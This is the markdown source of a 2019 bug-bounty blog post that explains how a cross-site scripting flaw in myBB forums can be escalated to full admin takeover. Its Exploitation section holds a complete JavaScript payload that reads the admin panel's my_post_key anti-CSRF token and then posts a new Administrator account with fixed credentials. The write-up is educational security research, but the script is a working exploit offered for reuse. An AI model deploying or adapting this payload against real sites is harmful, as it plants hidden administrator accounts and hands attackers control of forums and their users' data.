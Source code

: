```yaml
---
layout: post
title:	"myBB - Add Administrator via XSS"
date:	2019-05-29 03:00:00
categories:
    - notes
tags:
    - bug_hunting
    - bug_writeup
    - openbugbounty
---
```

<head>
	<title> myBB - Add Administrator via XSS </title>
</head>


# i. Introduction
While browsing Twitter, I happened to come upon [hakluke]'s(https://twitter.com/hakluke) blog post about upgrading an XSS from a medium to a critical bug. Long story short it detailed on how an XSS is able to bypass most CSRF protection mechanisms, and completely bypassing the Same Origin Policy. The most popular anti-CSRF mechanism are CSRF tokens. However, Javascript is able to request the form, parse the token, and then send it along with the subsequent request to perform a sensitive action. 

If you would like to read more about how this works, I highly recommend reading hakluke's blog post which can be found here: https://medium.com/@hakluke/upgrade-xss-from-medium-to-critical-cb96597b6cc4

hakluke included several proof of concepts for popular CMS platforms such as Wordpress and Drupal. I decided I wanted to give it a shot, and try testing it with a forum software that we all know and love... myBB. 

There are several reasons why I chose myBB, however the major one was that developers are able to create their own plugins similar as to Wordpress. By allowing developers to create third party plugins, it opens the door for a plethora of bugs, which XSS seems to be common. 


# ii. Exploitation

I have modified hakluke's original Wordpress script to work with myBB.

Script:
~~~
/*
mybb - adds administrator with username hacker and password hacker12345
tested on latest version of mybb v1.8.20
original script by hakluke modified by mqt
*/
var mybb_root = "" // don't add a trailing slash
var req = new XMLHttpRequest();
var url = mybb_root + "/admin/index.php?module=user-users&action=add";
var regex = /my_post_key" value="([^"]*?)"/g;
req.open("GET", url, false);
req.send();
var nonce = regex.exec(req.responseText);
var nonce = nonce[1];
var params = "my_post_key="+nonce+"&username=hacker&password=hacker12345&confirm_password=hacker12345&email=hacker@hacker.com&usergroup=4&displaygroup=0"; //make sure passwod is 6+ chars
req.open("POST", url, true);
req.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
req.send(params);
~~~ 

In short, in order to perform any sensitive action in the myBB Admin Panel, there is a token that is required which is called `my_post_key`. The following script sends a request to the myBB Admin Panel (which seems to have a lifespan of 30 minutes before asking the user to reauthenticate), retrieves the source and parses it looking for `my_post_key`. Once it finishes, it sends a subsequent request to add a user to the Administrator group with the username as hacker and password as hacker12345.


Here is a video proof of concept demonstrating it in action:
[video poc]

# iii. Conclusion

[note about xss]


As always, thank you for reading,
- mqt
